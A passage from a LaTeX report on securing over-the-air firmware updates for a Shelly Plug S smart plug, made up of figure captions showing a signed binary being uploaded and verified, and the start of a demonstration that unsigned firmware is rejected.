    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OtaProtetto1.png}
    \caption{Secure OTA update page (\texttt{/update}): the user selects a signed \texttt{.bin} file for upload}
    \label{fig:ota_page}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OtaProtetto2.png}
    \caption{Upload in progress: the signed firmware (\texttt{ShellyPlugS...firmato.bin}) is being transmitted to the device}
    \label{fig:ota_uploading}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OtaProtetto3.png}
    \caption{Successful verification: the device confirms ``SUCCESSO: Firma verificata. Aggiornamento in corso. La presa si riavviera' a breve...''}
    \label{fig:ota_success}
\end{figure}


\subsubsection{Demonstration: Rejected Unsigned Firmware}

To validate the rejection mechanism, an unsigned firmware binary (the raw \texttt{ShellyPlugS\_3.ino.bin} without the appended signature) was uploaded to the device. Figures~\ref{fig:ota_error1}--\ref{fig:ota_error2} show the result:

\begin{figure}[H]
    \centering
